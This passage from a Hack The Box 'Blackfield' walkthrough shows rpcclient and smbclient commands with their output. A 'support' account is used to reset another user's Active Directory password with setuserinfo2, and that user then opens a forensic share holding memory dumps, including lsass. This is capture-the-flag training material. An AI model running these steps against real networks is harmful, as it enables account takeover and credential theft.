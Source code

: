 ## rpcclient

I didn't have any luck using these credentials for SMB or evil-winrm, but it did let me login with rpcclient.

```bash
finlay@kali:~/htb/blackfield$ rpcclient //10.10.10.192 -U support
Enter WORKGROUP\support's password: 
rpcclient $>
```

After looking around I didn't find anything interesting, but we are logged in as an account called support. It is common that a support account can change user information, such as passwords. I read [this](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) article about changing AD passwords.

```bash
rpcclient $> setuserinfo2 audit2020 23 0xfinlay!
```

(It requires you to have a special character in the name)

## SMB

Now that we have changed `audit2020`'s password, let's try logging in to the SMB shares.

```bash
finlay@kali:~/htb/blackfield$ smbclient //10.10.10.192/forensic -U audit2020
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                7846143 blocks of size 4096. 4001448 blocks available
```

We can see that inside the `forensic` share, there is a few folders, let's take a look.

```bash
smb: \> cd memory_analysis\
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                7846143 blocks of size 4096. 4001448 blocks available
```
